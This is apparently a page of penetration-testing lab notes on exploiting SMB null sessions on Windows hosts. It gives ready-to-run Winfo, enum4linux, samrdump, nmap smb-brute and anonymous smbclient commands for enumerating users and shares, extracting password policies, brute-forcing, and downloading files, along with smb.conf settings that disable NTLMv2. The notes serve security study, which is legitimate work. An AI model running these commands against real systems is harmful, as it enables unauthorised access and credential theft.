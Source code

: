 **Exploiting Null Session with Winfo**

Automates null session exploitation.

Use with `-n` to tell the tool to use null sessions

```bash
winfo <target_IP> -n
```

**Exploiting Null sessions with Enum4linux**

A PERL script that can perform the same operations of `enum` and `winfo`, supplying some other features:

* User enumeration
* Share enumeration
* Group and member enumeration
* Password policy extraction
* OS info detection
* A nmblookup run
* Printer information extraction

```bash
# Look for null sessions in the network
nmap -sS -p135,139,445 <IP>

# => enum4linux
# -n
# -P Password policies of the system
# -S shares available in the remote machine
# brute force:
enum4linux -s /usr/share/enum4linux/share-list.txt <IP>
# -a do all simple enumeration

# => samrdump
# It's under : /usr/share/doc/python-impacket-doc/examples
python samrdump <IP>

# => nmap
nmap -script=smb-enum-shares <IP>
nmap -script=smb-brute <IP>
```

Use samba in Kali:

```bash
> vi /etc/samba/smb.conf

# Under [global]
client min protocol = CORE
client max protocol = SMB3
client use spnego = no
client ntlmv2 auth = no

# Get file shares using smbclient
smbclient -L WORKGROUP -I <IP> -N -U ""

# Access to a folder
smbclient \\\\<IP>\\WorkSharing -N
smb: \> ls
smb: \> get flag.txt /home/kali/Desktop/flag.txt
```
